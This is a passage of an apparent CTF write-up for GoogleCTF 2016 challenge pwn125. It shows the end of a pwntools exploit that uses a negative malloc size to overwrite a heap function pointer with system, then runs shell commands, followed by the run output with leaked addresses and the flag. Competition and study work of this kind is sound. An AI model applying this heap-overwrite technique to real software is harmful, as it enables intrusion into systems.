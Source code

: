 r.sendline('3')
r.recv(timeout=1)
r.sendline(str(-0x860))			# Negative malloc to wrap around and reach
r.recv(timeout=1)				# the beginning of the heap so we can overwrite
r.sendline('2')					# the helper_ptr with system
r.recv(timeout=1)
r.sendline(p64(system))
r.recv(timeout=1)

r.sendline('1')					# cause a call to helper_ptr
r.recv(timeout=1)
r.sendline('1')
r.recv(timeout=1)

r.sendline('ls')
print r.recv(timeout=1)
r.sendline('cat flag')
print r.recv(timeout=1)


#r.interactive()			# <-- broken because of SSL :(
{% endhighlight %}

And the flag

{% highlight text %}
➜  ~ python ctfs/GoogleCTF2016/pwn125/exploit.py
[+] Opening connection to ssl-added-and-removed-here.ctfcompetition.com on port 11111: Done
[*] Leak: 0x5590e5f950
[*] Helper ptr: 0x55829edf54
[*] Strtol@GOT: 0x7f8ba286e8
[*] System: 0x7f8ba30fd0
app
bin
flag
lib
lib64
sbin

CTF{somebody.has.written.gullible.on.the.ceiling.above.you}

[*] Closed connection to ssl-added-and-removed-here.ctfcompetition.com port 11111
{% endhighlight %}